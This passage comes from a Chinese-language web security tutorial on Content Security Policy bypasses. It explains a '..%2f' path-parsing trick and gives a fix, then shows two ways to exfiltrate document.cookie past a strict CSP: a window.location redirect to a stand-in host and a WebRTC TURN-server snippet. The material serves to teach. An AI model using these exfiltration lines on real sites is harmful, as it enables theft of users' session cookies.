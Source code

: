 ``` html
<script src="https://example.com/scripts/react/..%2fangular%2fangular.js"></script>
```

瀏覽器最後就會載入 `https://example.com/scripts/angular/angular.js`。

會這樣子是因為對瀏覽器來說，你載入的是一個位於 `https://example.com/scripts/react/` 底下，名為 `..%2fangular%2fangular.js` 的檔案，是符合 CSP 的。

但是對某些伺服器而言，在收到 request 時會先做 decode，就等於是在請求 `https://example.com/scripts/react/../angular/angular.js` 這個網址，也就是 `https://example.com/scripts/angular/angular.js`。

透過這種瀏覽器以及伺服器對於網址解析的不一致，就可以繞過路徑的規則。

解法的話就是不要在 server side 把 `%2f` 看成是 `/`，讓瀏覽器跟伺服器的解析一致，就沒這種問題了。

## 其他種類的繞過

剛剛講的那些基本上都是針對 CSP 規則的繞過方式，而接著要談的是「CSP 本身的限制」所產生的繞過方式。

舉例來說，假設有一個網站的 CSP 很嚴格，但是卻可以讓你執行 JavaScript：

``` html
<!DOCTYPE html>
<html>
<head>
  <meta http-equiv="Content-Security-Policy" content="default-src 'none'; script-src 'unsafe-inline';">
</head>
<body>
  <script>
    // any JavaScript code
  </script>
</body>
</html>
```

而目標是要偷到 `document.cookie`，這時候可以怎麼做？

偷不是問題，問題是要傳出去，因為 CSP 已經阻止了所有外部資源的載入，所以無論是用 `<img>` 也好，`<iframe>` 也好還是 `fetch()` 或甚至是 `navigator.sendBeacon` 都一樣，全部都會被 CSP 擋住。

這時候有幾種方式可以把資料傳出去，第一種是 `window.location = 'https://example.com?q=' + document.cookie`，利用頁面跳轉，這個方式目前還沒有 CSP 規則可以限制，但未來可能會多出 [navigate-to](https://udn.realityripple.com/docs/Web/HTTP/Headers/Content-Security-Policy/navigate-to) 這個規則。

第二種是利用 WebRTC，程式碼如下（來自 [WebRTC bypass CSP connect-src policies #35](https://github.com/w3c/webrtc-nv-use-cases/issues/35)）：

``` js
var pc = new RTCPeerConnection({
  "iceServers":[
      {"urls":[
        "turn:74.125.140.127:19305?transport=udp"
       ],"username":"_all_your_data_belongs_to_us",
      "credential":"."
    }]
});
pc.createOffer().then((sdp)=>pc.setLocalDescription(sdp));
```
